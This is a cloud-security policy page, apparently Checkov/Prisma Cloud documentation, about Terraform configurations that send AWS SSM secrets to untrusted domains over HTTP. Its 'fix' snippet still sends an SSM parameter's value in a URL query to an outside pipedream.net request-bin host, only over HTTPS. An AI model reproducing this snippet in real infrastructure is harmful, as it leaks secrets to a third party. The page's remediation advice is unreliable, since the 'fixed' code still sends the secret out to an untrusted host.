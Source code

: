 == AWS Terraform sends SSM secrets to untrusted domains over HTTP


=== Policy Details 

[width=45%]
[cols="1,1"]
|=== 
|Prisma Cloud Policy ID 
| 97cd3044-4e7e-40b2-9240-4410d7932d79

|Checkov Check ID 
| https://github.com/bridgecrewio/checkov/blob/main/checkov/terraform/checks/graph_checks/aws/HTTPNotSendingPasswords.yaml[CKV2_AWS_36]

|Severity
|LOW

|Subtype
|Build

|Frameworks
|Terraform

|=== 



=== Description 


Sending secrets such as passwords and encryption keys over an untrusted network or domain can increase the risk of those secrets being intercepted and compromised.
This is because the secrets may not be encrypted while in transit, making it easier for attackers to intercept and read them.
By ensuring that AWS Terraform does not send secrets to untrusted domains over HTTP, you can help protect the confidentiality of your secrets and reduce the risk of them being compromised.
Instead, you should use secure protocols such as HTTPS or SSL/TLS to transmit secrets, as these protocols can help protect the secrecy of the secrets in transit.

=== Fix - Buildtime


*Terraform* 




[source,go]
----
resource "aws_ssm_parameter" "param2" {
  name = var.parameter_name
  type = "String"
  value = "foo"
}

data "http" "nonleak2" {
  url = "https://enp840cyx28ip.x.pipedream.net/?id=${aws_ssm_parameter.param2.name}&content=${aws_ssm_parameter.param2.value}"
}
----
